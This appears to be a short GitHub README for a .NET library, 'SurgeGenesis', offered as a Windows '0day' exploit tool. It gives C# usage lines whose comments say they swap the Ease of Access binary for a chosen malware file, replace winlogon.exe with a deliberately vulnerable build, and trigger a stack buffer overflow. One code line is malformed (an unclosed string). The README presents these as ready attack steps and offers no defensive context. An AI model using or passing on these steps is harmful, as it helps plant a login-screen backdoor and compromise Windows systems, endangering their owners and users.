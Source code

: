 # Surge Genesis

If you import SurgeGenesis.dll into your .NET application in Visual Studio in the References, you can exploit the 0day.

Just call
```cs 
using SurgeGenesis;
```
and
```cs
SurgeGenesis.Surger genesis = new SurgeGenesis.Surger();
```

Then you can use some commands like
```cs
Genesis.SurgeStart("c:\users\johndoe\downloads\MalwareFile.exe); // Replaces the Ease of Access file with your selected file
Genesis.SurgeBuffer(); // Replaces winlogon.exe with a bugged version that has security bugs
Genesis.BufferOverflow(); // Starts a Stack Buffer Overflow (not reccomended as it is just a bufferoverflow to have if you don't know how to make a bufferoverflow payload)
```
